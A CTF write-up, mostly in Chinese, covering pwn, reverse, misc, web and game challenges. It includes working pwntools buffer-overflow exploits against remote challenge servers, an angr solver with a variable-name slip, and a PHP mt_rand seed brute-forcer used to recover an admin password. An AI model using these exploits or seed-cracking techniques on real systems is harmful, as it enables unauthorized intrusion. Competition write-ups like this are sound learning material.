 #return 0; wp
##pwn
###1. Password_checker
![](https://i.imgur.com/JwjIu9J.png)  

![](https://i.imgur.com/AO4VZzy.png)

```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20002)
p.sendline('a'*(260-4))
p.sendline('s'+p32(0x8048674)*8)
p.interactive()
```
然后在出来的文件系统中找到home/ctf/flag文件即可获得flag

###2. overflow
![](https://i.imgur.com/Td3r3LN.jpg)
下载文件之后  
直接拖进ida
然后找到main函数和旁边的sub_80485BD，溢出一下得到flag
```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20001)
libc = CDLL('libc.so.6')
t=libc.time(0)
print(hex(t))
libc.srand(t)
anser=libc.rand()
print(hex(anser))
p.sendline('a'*(0xFFC511CC-0xFFC511AC)+p32(anser)+'b'*(0xFFC511DC-0xFFC511CC-4)+p32(0x080485BD))

p.interactive()
```
##rev
###middle
```python
#!/usr/bin/env python
# coding=utf-8
import angr,string
import claripy
import pickle
import sys
import logging
import time
logging.getLogger('angr').setLevel('WARNING')

p = angr.Project('./middle.bin', load_options={'auto_load_libs': False})

# 804A0D8
# 804A0D0

def decode():  # 400D33
    symbols = [claripy.BVS('crypto%d' % i, 8) for i in range(24)]
    
    Content = claripy.Concat(*symbols)
    Stat0e = p.factory.blank_state(
        addr=0x000000080488EB ,
        stdin=Content,
        #add_options=angr.options.unicorn, #| {angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY},
        remove_options={}
    )
    key = [claripy.BVS('key%d' % i, 8) for i in range(4)]
    state.memory.store(0x804A0D4,claripy.Concat(*key),4)
  
    for k in symbols:
        state.solver.add(k != 10)
        so1=state.solver.And( k > 8, k < 14)
        so2=state.solver.And( k > 31, k < 127)
        state.solver.add(state.solver.Or(so1,so2)==True)
    @p.hook(0x00000080489C3, length=5)
    def index(_state):
        print(_state, '233333')
    @p.hook(0x0000804882A, length=0)
    def index(_state):
        print(_state, '0x0000804882A')
    
    @p.hook(0x0008048831 , length=6)
    def index(_state):
        print(_state, 'pass')
        
        
    @p.hook(0x00804883E, length=0)
    def index(_state):
        print(_state, 'no pass')
    
    @p.hook(0x0008048863 , length=0)
    def index(_state):
        print(_state, '08048899')
      
    simulation = p.factory.simulation_manager(state)
    res = simulation.explore(find=0x0080488AF ,avoid=[0x080488BD ])  # , enable_veritesting=True
    print(len(res.found))
    result = []
    for pp in res.found:
        tmp = pp.solver.eval_upto(Content, 10,cast_to=bytes)
        print('yes',tmp)
        tmp = pp.solver.eval_upto(claripy.Concat(*key),10, cast_to=bytes)
        print('yes',tmp)
if __name__ == "__main__":
    decode()
```
##misc
###plot
用CAXA编程助手打开即得到flag
![](https://i.imgur.com/5NMqPxc.png)

###rev
```python
enc_flag = '86la1l52l9fl93l9dl97l52l9bla6l52l9fla1la4l97l52l96l9bl98l98l9bl95la7l9ela6l52la6la1l52l95l93l9el95la7l9el93la6l97l52la6l9al97l52l98l9el93l99l52l94labl52l9al93la0l96l5el52la0la7l93l93l95la6l98ladla2labl91la7la0l95la1l9fla2labl9el97lafl5el52l98l9el93l99l52l9bla5l52l98la1la4l52la5l95la4l9bla2la6la5l'
enc_flag=enc_flag.replace('l','')
b=bytes.fromhex(enc_flag)

print(b)
for k in b:
    print(chr(k-50),end='')
```



##Web
###令人怀念的南邮综合题（确确实实是做出来了那种感觉）
![](http://thyrsi.com/t6/639/1545616214x2728278644.png)

先wascan扫一遍后台（抱歉咯）XD
发现存在一个www.zip的文件，下载以后打开发现是几个源码
然后就是痛苦的代码审计

![](http://thyrsi.com/t6/639/1545616764x2890174375.png)
在百度了两千年以后发现这边有点毛病，看上去管理员的密码是可控的，
然后就在网页里边随便注册了一个（其实是好几个）账号，
点击某个按钮以后跳转到某个网页，给了个int的值
![](http://thyrsi.com/t6/639/1545617009x2890174375.png)
（其实在此之前还跑了很多遍这个网页，操作成功的不是这个值）
```php
<?php
ini_set('max_execution_time', '0');
for($i=100000;$i++;$i<=1000000){
    mt_srand($i);
	if(mt_rand() == $_GET[1]){
        die(substr(md5(mt_rand()),0,6));
    }
}
?>

```
然后跑一下这串代码，得到admin（几来着）的密码，fefe还是tete什么的来着
最后登录admin拿到flag


##Re
###车万狗的基本素养

####这道题真的不是misc吗？

————————————————————————————————————————————————

打开游戏，强打，失败（灵力真是少得可怜啊

然后开ce，老规矩，先吃几个p点，我这里是吃到1.12以后然后开始搜索的
ce搜索112，发现有个地址先前的值为100，那肯定就是灵力没跑了，修改值为400，然后锁定
![](http://thyrsi.com/t6/639/1545617335x2890174375.png)

后来发现满灵力是500，索性就改了（这真的是dld而不是fsl么

最后进游戏，一路炸炸炸，拿到flag

![](http://thyrsi.com/t6/639/1545617412x2890174375.png)


答应我，下次用luastg好吗